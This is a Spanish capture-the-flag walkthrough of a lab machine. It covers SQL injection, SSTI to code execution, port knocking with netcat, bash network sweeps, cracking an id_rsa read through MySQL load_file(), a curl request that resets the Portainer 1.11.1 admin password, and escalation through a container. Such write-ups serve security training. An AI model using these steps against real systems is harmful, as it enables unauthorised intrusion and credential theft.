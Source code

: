 ## Técnicas utilizadas
- SQL Injection (SQLI)  
- Server Side Template Injection (SSTI) (RCE)  
- Abusing Knockd  
- Network enumeration techniques using bash oneliners  
- PIVOTING  
- Portainer 1.11.1 Exploitation - Resetting the admin password  
- Creating a new container from Portainer (Privilege Escalation)
## Procedimiento

![[Pasted image 20230627140859.png]]

#### Reconocimiento
Si lanzamos un escaneo con **nmap** podemos ver los siguientes puertos abiertos:
```ruby
# nmap -sCV -p80,8080 10.10.10.96 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 12:54 MST
Nmap scan report for 10.10.10.96
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-title: OZ webapi
|_http-trane-info: Problem with XML parsing of /evox/about
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.28 seconds
```
Un escaneo con **whatweb** sobre la pagina web nos muestra las siguientes tecnologías corriendo por detrás:
```ruby
# whatweb 10.10.10.96:8080
http://10.10.10.96:8080 [302 Found] Country[RESERVED][ZZ], HTTPServer[Werkzeug/0.14.1 Python/2.7.14], IP[10.10.10.96], Python[2.7.14], RedirectLocation[http://10.10.10.96:8080/login], Title[Redirecting...], Werkzeug[0.14.1]
http://10.10.10.96:8080/login [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/0.14.1 Python/2.7.14], IP[10.10.10.96], JQuery, PasswordField[password], Python[2.7.14], Script, Title[GBR Support - Login], Werkzeug[0.14.1], X-UA-Compatible[IE=edge]

# whatweb 10.10.10.96
http://10.10.10.96 [200 OK] Country[RESERVED][ZZ], HTTPServer[Werkzeug/0.14.1 Python/2.7.14], IP[10.10.10.96], Python[2.7.14], Title[OZ webapi], Werkzeug[0.14.1]
```


-------------
#### SQL Injection (SQLI) 
Encontramos una entrada vulnerable en la aplicacion web, podemos percatarnos de la inyección SQL por que el output con **wfuzz** nos avienta un **500 internal server error**  cuando aparece una **comilla**:
![[Pasted image 20230628130609.png]]

Eumerando las **Bases de Datos** podemos encontrar unas credenciales, la contraseña esta *hasheada* pero podemos intentar remperlo con **hashcat** o **john**.

---------
#### Server Side Template Injection (SSTI) (RCE)
Dentro del dashboard del usuario, podemos añadir nuevos comentarios o sugerencias. Si interceptamos la petición con **BurpSuite** e intentamos alguna inyección tipica de **Server Side Template Injection** veremos que si es vulnerable:
![[Pasted image 20230628152756.png]]

Podemos intentar entablarnos una reverse shell aprovechandonos de **SSTI**

----------
#### Abusing Knockd
Enumerando la maquina, podemos ver que hay un archivo **knockd.conf**. vemos que si tocamos a ciertos puertos puodemos habilitar el puerto **22 - SSH** de la maquina victima. Hay herramientas que automatizan el golpeo de puertos como **knockd** ( `apt install knockd` ) pero tambien lo podemos hacer con el propio **netcat** de la siguiente manera:
```
# for i in <port> <port> <port>; do echo "test" | nc -u -w 1 <ip> $i; nmap -p22 --open -T5 -v -n <ip>; done
```

Vemos que se abre pero realmente no nos sirve de mucho ya que este se cierra.
Enumerando mas el sistema, damos con unas contraseñas para conectarnos a la base de datos.

#### Network enumeration techniques using bash oneliners 
Es posible que existan más contenedores en nuestro segmento de red, ya que en el archivo de configuración del docker se habla de otra **IP**. Podemos enumerar todos los hosts de nuestro segmento de red con un **onliner** en bash:
```
# for i in $(seq 0 254); do (ping -c 1 172.19.0.$i | grep "bytes from"&); done
```

Si la maquina contara con **fping** seria más facil aplicar un barrido por todos los hosts existentes de la siguiente manera:
```
# fping -g 10.100.10.0/24
```

Una vez con los hosts detectados, podemos proceder a enumar los puertos disponibles para cada uno de ellos de ls giuiente manera:
```
# for port in $(seq 1 65535); do echo ' ' > /dev/tcp/10.100.10.4/$port && echo "[+] Puerto encontrado -> $port"
```

Al final tenemos el host: **10.100.10.4** y el puerto **3306 - mysql**. Podemos intentar conectarnos a la base de datos con las credenciales encontradas. Podemos obtener una **id_rsa** de la maquina con la función **load_file()** de **mysql**.

----------
#### PIVOTING
La **id_rsa** viene con encriptación la cual podemos romper con **ssh2john**. Una vez rota nos podemos conectar a la maquina proporcionando la **id_rsa**:
```
# for i in 40809 50212 46969; do echo "test" | nc -w 1 -u 10.10.10.96 $i; done; ssh -i id_rsa dorthi@10.10.10.96
```

#### Portainer 1.11.1 Exploitation - Resetting the admin password  
Listando las **network configuration** de los contendores, podemos encontrar uno que esta corriendo **Portainer**.

La maquina cuenta con **nmap** asi que podemos hacer un barrido de puertos comodamente a esa **IP**. Encontramos un puerto que contiene un servidor web. Podemos hacer port forwarding y traernos el sitio web a nuestra maquina para mayor comodidad.

Al inspeccionar la pagina, podemos ver que hay un panel de inicio de sesión. Intentando con alguna de las credenciales que habiamos encontrado, vemos que ninguna funciona. Sin embargo, si intentamos listar vulnerabilidades para la versión actualmente en uso, encontramos una que nos permite cambiar la contraseña al usuario **administrador**:
![[Pasted image 20230628203734.png]]

La vulnerabilidad basicamente conssiten en mandar un **usuario** y una **contraseña** por **POST** a la siguiente **URL**:
```java
# curl -s -X POST "http://<ip>/api/users/admin/init" -H 'Content-Type: application/json' -d '{"password":"pipipopo"}'
```

----------
#### Creating a new container from Portainer (Privilege Escalation)
Una vez dentro de la suit de **portainer** podemos crear un contenedor que contenga la raiz de la maquina victima. 
